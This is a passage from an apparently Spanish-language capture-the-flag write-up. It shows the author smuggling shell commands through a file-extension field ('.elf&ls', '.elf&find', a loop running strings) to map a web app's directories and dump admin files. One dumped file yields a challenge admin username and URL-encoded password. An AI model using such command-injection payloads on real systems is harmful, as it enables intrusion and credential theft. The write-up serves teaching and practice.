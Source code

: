 ```
.elf&echo hola>hola.php
```

Sin éxito tampoco.

Tras varias pruebas... bueno, más que varias, un montón, obtengo información que me puede ser útil.

Contenido de la carpeta anterior, `/home/malwareadm/sites/proteus_site/web`

```
Usamos como extensión .elf&ls -al $(dirname `pwd`)

total 52
drwxr-xr-x 9 malwareadm malwareadm 4096 May 10 08:30 .
drwxr-xr-x 4 malwareadm malwareadm 4096 May 15 14:43 ..
drwxr-xr-x 2 malwareadm malwareadm 4096 May 2 14:08 cfg
-rwxr-xr-x 1 malwareadm malwareadm 745 May 2 16:38 composer.json
-rw-r--r-- 1 malwareadm malwareadm 11175 May 2 16:38 composer.lock
drwxr-xr-x 3 malwareadm malwareadm 4096 May 2 14:04 lib
drwxrwxrwx 2 malwareadm malwareadm 4096 May 10 08:10 logs
drwxr-xr-x 3 malwareadm malwareadm 4096 May 2 14:04 public
drwxr-xr-x 2 malwareadm malwareadm 4096 May 4 19:26 routes
drwxr-xr-x 5 malwareadm malwareadm 4096 May 4 20:37 templates
drwxr-xr-x 8 malwareadm malwareadm 4096 May 2 16:38 vendor
```

Contenido íntegro de la carpeta  `/home/malwareadm/sites/proteus_site/` incluyendo subcarpetas

```
Usamos como extensión .elf&find $(dirname $(dirname `pwd`))

...
/home/malwareadm/sites/proteus_site
/home/malwareadm/sites/proteus_site/admin_login_request.js
/home/malwareadm/sites/proteus_site/PROTEUS_INSTALL
/home/malwareadm/sites/proteus_site/db
/home/malwareadm/sites/proteus_site/admin_login_logger
...
```

Como vemos que hay varios archivos que incluyen la palabra *admin*, vamos a buscar todos:

```
Usamos como extensión .elf&find $(dirname $(dirname `pwd`)) -name *admin*

/home/malwareadm/sites/proteus_site/admin_login_request.js
/home/malwareadm/sites/proteus_site/admin_login_logger
/home/malwareadm/sites/proteus_site/web/templates/admin
```

Mostramos el contenido de dichos archivos:

```
Usamos como extensión .elf&for d in $(find $(dirname $(dirname `pwd`)) -maxdepth 2 -name *admin*); do strings $d; done

// THIS IS JUST USED TO IMPERSONATE AN ADMIN FOR THE CHALLENGE
var username = 'malwareadm';
var pwd = 'q-L%40X%21%7Bl_%278%7C%29o%3FQ%2BTapahQ%3C_';
var webPage = require('webpage');
var page = webPage.create();
var postBody = 'username=' + username + '&password=' + pwd;
page.open('http://127.0.0.1/samples', 'post', postBody, function (status) {
  if (status !== 'success') {
    console.log('Unable to post!');
  } else {
    console.log(JSON.stringify({
      cookies: phantom.cookies
  }));
```